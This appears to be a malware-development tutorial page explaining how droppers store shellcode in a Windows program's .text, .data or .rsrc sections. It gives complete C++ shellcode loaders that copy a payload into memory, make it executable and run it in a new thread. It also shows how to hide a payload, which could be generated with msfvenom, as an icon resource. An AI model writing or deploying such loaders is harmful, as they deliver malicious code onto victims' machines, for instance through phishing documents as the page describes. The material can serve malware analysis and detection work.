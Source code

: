 ```yaml
---
layout: default
---
```


# Payload Storage
The payloads are often stored in droppers. A droppers are special programs which delivers paylaod to the target machine. A simple example would be that of phishing attack, the user received a malicious document which contains the payload or the code that would get executed when the user opens the document. So, main function of a dropper would be to deliver the payload to the machine to be executed.

But where to store the payloads from the dropper ? There are three locations:
- text (.text)
- data (.data)
- resources (.rsrc)


## Location - `.text`
The .text section of a program is a portion of memory that is used to store the executable code of the program. The .text section is typically read-only and cannot be modified at runtime. An example is below:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	// Assign payload
	unsigned char payload[] = { } // shell code.
	unsigned int payload_len = sizeof(payload);
	
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	RtlMoveMemory(exec_mem, payload, payload_len);
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

Here's a breakdown of what each Win32 function does: 

1. `VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`

This function allocates memory in the virtual address space of the calling process. The first argument (0 in this case) specifies the starting address of the allocation (the function will choose a suitable address if this argument is 0). The second argument (payload_len) specifies the size of the allocation, in bytes. The third argument `(MEM_COMMIT | MEM_RESERVE)` specifies that the memory should be committed and reserved at the same time. The fourth argument `(PAGE_READWRITE)` specifies the initial memory protection for the allocated memory. This protection allows the memory to be read and written to.

The function returns a pointer to the allocated memory, or NULL if the allocation fails.

1. `RtlMoveMemory(exec_mem, payload, payload_len);`

This function is used to copy the contents of one block of memory to another. The first argument (exec_mem) is the destination memory address, the second argument (payload) is the source memory address, and the third argument (payload_len) is the number of bytes to copy.


1. `VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);`

This function changes the protection of the allocated memory so that it can be executed. The first argument (exec_mem) is the address of the memory block to change. The second argument (payload_len) is the size of the memory block. The third argument `(PAGE_EXECUTE_READ)` specifies the new memory protection, allowing the memory to be executed and read. The fourth argument (&oldprotect) is a pointer to a variable that receives the old protection value of the memory. This value can be used to restore the original protection later, if needed.

The function returns a non-zero value if it succeeds, or zero if it fails.


## Location - `.data`
The .data section is a portion of a program's memory that is allocated for storing initialized global and static variables. This section is typically located immediately after the program's code in memory.

The sample program is exactly the same, except the shellcode is initialised as the global variable:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Assign payload
unsigned char payload[] = { } // shell code.
unsigned int payload_len = sizeof(payload);

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;	
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	RtlMoveMemory(exec_mem, payload, payload_len);
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}
	return 0;
}
```

## Resources - .rsrc
The .rsrc section of a Windows executable file is a portion of memory that is used to store resources such as icons, bitmaps, dialogs, and version information. Resources in the .rsrc section are typically read-only and cannot be modified at runtime.

Storing shellcode in the .rsrc section of an executable file is a technique used in exploit development to execute arbitrary code in the context of the program. This technique involves creating a new resource in the .rsrc section, embedding the shellcode in the resource, and then triggering the program to load and execute the shellcode.

To store shellcode in the .rsrc section, you would first need to create a new resource using a resource editor or resource compiler. The new resource should have a suitable type and ID, such as a custom dialog or bitmap resource. Once you have created the new resource, you can embed the shellcode in the resource data.

1. To begin we would first initilise the payload and payload length varaibles:

```cpp
unsigned char * payload;
unsigned int payload_len;
```

1. Extract payload from resources

```cpp
// Extract payload from resources section
res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
resHandle = LoadResource(NULL, res);
payload = (char *) LockResource(resHandle);
payload_len = SizeofResource(NULL, res);
```
Here's a breakdown of what each of these function does: 

1. `FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);` - Searches for a resource with the specified name and type in the executable file's resource table.
2. `LoadResource(NULL, res);` - Loads the specified resource into memory and returns a handle to it.
3. `(char *) LockResource(resHandle);` - Locks the specified resource in memory and returns a pointer to its data.
4. `SizeofResource(NULL, res);` - Returns the size, in bytes, of the specified resource.

The `FAVICON_ICO` is resource name which is defined in another file, e.g `resources.rc`. The file contains the following code:

```cpp
#include "resources.h"

FAVICON_ICO RCDATA calc.ico
```
Note that calc.ico could be binary file which contains our malicious code. The same could be generated by Metasploit MsfVenom or others.

And in the `resources.h` we define the resource number, for example the following:

```cpp
#define FAVICON_ICO 100
```

Finally the resources need to compiled before the compilation of the program:

```cpp
rc resources.rc
cvtres /MACHINE:x64 /OUT:resources.o resources.res
```

Our final program would be the following:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"
int main(void) {

	void * exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;

	unsigned char * payload;
	unsigned int payload_len;

	// Extract payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (char *) LockResource(resHandle);
	payload_len = SizeofResource(NULL, res);

	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	// Copy payload to new memory buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}
	return 0;
}
```

[back](../malware.md)